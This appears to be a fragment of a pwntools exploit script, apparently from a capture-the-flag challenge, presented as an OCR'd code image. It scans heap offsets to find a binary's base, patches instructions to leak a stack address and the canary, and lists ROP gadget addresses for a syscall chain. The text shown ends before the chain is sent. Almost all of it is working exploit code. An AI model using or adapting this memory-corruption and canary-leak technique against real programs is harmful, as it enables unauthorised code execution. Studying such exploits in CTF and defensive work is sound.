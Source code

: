 ```python

    # Search where the binary is in memory.
    # We do it in multiples of bin_size so it's not that hard to
    # find it.
    p = log.progress("searching for binary")
    while True:
        offset = heap_base - i*bin_size
        p.status(f"trying {i=} {offset=}")
        io.sendline(f"{offset}".encode())
        
        recieved = io.recvuntil(b"poni")
        if b":<" not in recieved:
            break
        
        heap_base -= 0x20 # malloc chunk size
        i += 1
    p.success(f"binary was found at offset {offset}")

    # Binary search for the base of the binary.
    l = offset - heap_base
    r = l + bin_size
    p = log.progress("searching for binary base")
    while l <= r:
        m = (l+r) // 2
        p.status(f"trying {l=} {r=} {m=}")
        io.sendline(f"{m}".encode())

        recieved = io.recvuntil(b"poni")
        if b":<" not in recieved:
            l = m+1
        else:
            r = m-1
        l -= 0x20
        r -= 0x20
    bin_base_offset = m - bin_size
    p.success(f"binary base found at {hex(bin_base_offset)=}")

    # Overwrite the mov instructions.
    bin_base_offset -= 0x20
    read_movl_offset = exe.sym['main']+3670+3 - exe.address
    io.sendline(f"{bin_base_offset+read_movl_offset}".encode())

    bin_base_offset -= 0x20
    write_movq_offset = exe.sym['main']+3627+4 - exe.address
    io.sendline(f"{bin_base_offset+write_movq_offset}".encode())

    io.recvuntil(b"poni")
    io.recv(21)
    stack = u64(io.recv(8))
    canary = u64(io.recv(8))
    info(f"stack: {hex(stack)}")
    info(f"canary: {hex(canary)}")

    rbp = p64(stack+0x20)
    # 0x0000000044c07e: pop rsi; ret;
    pop_rsi = 0x0000000044c07e
    # 0x0000000042c05c: pop rax; ret;
    pop_rax = 0x0000000042c05c
    # 0x0000000040478d: pop rdi; pop rbp; ret;
    pop_rdi_rbp = 0x0000000040478d
    # 0x000000004025cc: syscall;
    syscall = 0x000000004025cc
    
```